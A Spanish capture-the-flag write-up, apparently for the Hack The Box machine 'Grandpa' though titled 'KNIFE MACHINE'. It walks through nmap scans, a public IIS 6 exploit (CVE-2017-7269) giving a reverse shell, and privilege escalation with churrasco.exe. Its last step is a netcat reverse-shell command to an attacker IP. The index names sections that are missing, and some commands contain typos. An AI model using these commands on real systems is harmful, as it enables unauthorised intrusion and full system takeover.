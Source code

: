 # KNIFE MACHINE

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/1.png)

## INDEX

- [[#ENUMERACION|ENUMERACION]]
- [[#EXPLOTACION|EXPLOTACION]]
	- [[#FORMAS DE HACER BANNER GRABBING|FORMAS DE HACER BANNER GRABBING]]
- [[#ELEVACION DE PRIVILEGIOS|ELEVACION DE PRIVILEGIOS]]
	- [[#OPCION 2|OPCION 2]]
- [[#NOTA|NOTA]]


## ENUMERACION

Vemos que puertos abiertos tiene

```
nmap -p- --opent -T5 -n -v 10.10.10.14 -oG allPorts
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/2.png)

vamos a enumerar los servicios:

```
nmap -p80 -sC -sV 10.10.10.14 -oN targeted
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/3.png)

vemos que tiene un IIS desactualizado, veamos la pagina web:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/4.png)

nada interesante asi que vamos a ver si hay un exploit para esa version de IIS.

## EXPLOTACION

encontramos el siguiente exploit buscando a partir de un CVE que pertenecia a una vulnerabiliad en IIS 6:

- [https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

lo ejecutamos:

```bash
python exploit.py 10.10.10.14 80 10.01.14.2 4545
```

nos colocamos en escucha en ese puerto y obtenemos una conexion:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/5.png)

entramos como **nt authority\\network service**


## ELEVACION DE PRIVILEGIOS

al ver los privilegios que tenemos con ese usuario:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/6.png)

vemos que tenemos el **SeImpersonatePrivilege** habilitado, podriamos usar el **juicypotato**, pero estamos ante una version un poco antigua de windows:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/7.png)

el juicypotato nos dara problemas con esta version pues no la soporta, pero tenemos una alternativa descrita en este archiculo acerca de **churrasco.exe**:

- [https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

vamos a descargarlo desde este repositorio:

- [https://github.com/Re4son/Churrasco](https://github.com/Re4son/Churrasco)

y lo pasamos a la maquina victima por smbserver de impacket en **c:\\windows\\temp**

```bash
impacket-smbserver smbFolder $(pwd) smb2support
```

```bash
copy \\10.10.14.2\smbFolder\churrasco.exe churrasco.exe
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/8.png)

y lo ejecutamos:

```bash
churrasco.exe -d "whomai"
```

esto nos permite ejecutar comandos como administrador:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/9.png)

por lo que nos podemos pasar el netcat y pasarnos una shell con maximos privilegios:

```bash
churrasco.exe -d "C:\WINDOWS\Temp\chu\nc.exe -e cmd.exe 10.10.14.2 4242"
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/10.png)

ya podemos ver las 2 flags:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/GRANDPA/images/11.png)


